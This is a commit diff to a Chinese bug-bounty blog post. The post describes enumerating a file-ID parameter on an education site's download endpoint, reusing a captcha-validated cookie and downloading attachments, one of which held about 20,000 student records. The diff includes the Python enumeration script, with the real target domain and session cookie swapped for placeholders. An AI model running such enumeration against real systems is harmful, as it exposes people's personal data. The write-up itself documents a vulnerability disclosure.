

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-14--非典型渗透-某教育资产敏感信息泄漏提证书.md, in a window 1280 px wide and 1400 px high, scrolled down 238 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update and rename 2023-06-14-SRC实战-非典型渗透-某教育资产证书+通杀.md to 2023-06-14--非典型渗透-某教育资产敏感信息泄漏提证书.md

````diff
--- a/_posts/2023-06-14-SRC实战-非典型渗透-某教育资产证书+通杀.md
+++ b/_posts/2023-06-14--非典型渗透-某教育资产敏感信息泄漏提证书.md
@@ -15,11 +15,13 @@ https://xxx.edu.cn/system/_content/download.jsp?urltype=news.DownloadAttachUrl&o
 ```
 观察该url不难发现，该url仅有两个关键参数:owner、wbfileid
 尝试横向遍历，通过向数值减小的方向遍历wbfileid参数，发现一下规律：
+
 1、当前url响应的文件时间随数值的减小而减小
 2、jpg、png、gif等图片大多都为学生合照、活动照片，于是过滤这些资产
 3、pdf、xlsx等其他各式更为重要，并且可以通过python脚本提取文件信息，分析是否有重要内容，省去人工筛查的麻烦
 
-因此，写了个python脚本(别问为什么不用burpsuite)
+第一次要求时要求验证码，第二次不再要求，观察得知验证识别放在cookie中，正好省去python自动校验验证码带来的时间损耗
+因此，写了个python exp自动便利(别问为什么不用burpsuite)
 
 ```python
 
@@ -32,13 +34,13 @@ get_header = {
 	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0",
 	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
 	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
-    "Cookie": "JSESSIONID=8097F0843DC79A07FB6298A38BFCE3C1"
+    	"Cookie": [验证码校验过的Cookie]"
 }
 
-prev = 185571
-last = 195571
+prev = [开始遍历的wbfileid参数]
+last = [结束遍历的wbfileid参数]
 
-URL = "https://jxjy.cdtu.edu.cn/system/_content/download.jsp?urltype=news.DownloadAttachUrl&owner=1134009718&wbfileid="
+URL = "https://[填写可疑系统域名]/system/_content/download.jsp?urltype=news.DownloadAttachUrl&owner=1134009718&wbfileid="
 
 def save(filename, content, nums):
     filename2 = f'''{nums}----''' + filename
@@ -68,3 +70,6 @@ for i in range(prev, last):
     except:
         print('error')
 ```
+
+最后，终于遍历到了一个压缩包内包含dbf文件，excel打不开，推测是数据量过大导致的
+于是用专业dbf查看器打开，果然包含近两万条学生数据，喜提中危
````
Also changed, not shown: other parts of _posts/2023-06-14--非典型渗透-某教育资产敏感信息泄漏提证书.md (+1 -1 lines).
